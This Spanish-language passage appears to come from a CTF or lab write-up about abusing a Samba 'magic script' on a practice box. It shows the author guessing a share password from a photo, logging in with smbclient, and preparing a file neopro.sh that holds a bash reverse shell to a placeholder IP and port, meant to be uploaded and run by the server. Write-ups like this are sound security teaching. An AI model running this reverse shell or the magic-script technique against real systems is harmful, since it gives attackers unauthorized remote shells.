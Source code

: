 <figure><img src="../../.gitbook/assets/Captura de pantalla 2025-09-12 131436.png" alt=""><figcaption></figcaption></figure>

Vemos que esta el usuario `neopro` como usuario `samba`, pero no tenemos ninguna contraseña, tambien vemos que esta un `magic script` llamado `neopro.sh` por lo que vamos a crear el archivo para tenerlo ya preparado.

> neopro.sh

```bash
#!/bin/bash

bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

Lo guardamos y vamos a probar a utilizar como contraseña para conectarnos al recurso compartido llamado `NeoProShare` la palabra `torre eiffel` ya que hay una foto de la misma y podria ser dicha contraseña.

```shell
smbclient //<IP>/NeoProShare -U neopro
```

Metemos como contraseña `torre eiffel`...

```
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Sep 12 04:49:50 2025
  ..                                  D        0  Fri Sep 12 04:49:50 2025

                82083148 blocks of size 1024. 0 blocks available
```

Veremos que estaremos dentro, acordemonos de que hay un `magic script`, no veremos ningun archivo llamado `neopro.sh`, por lo que podemos aprovechar esta vulnerabilidad ya que ahora si subimos un archivo llamado de la misma forma se va a ejecutar, por lo que vamos a ponernos a la escucha.

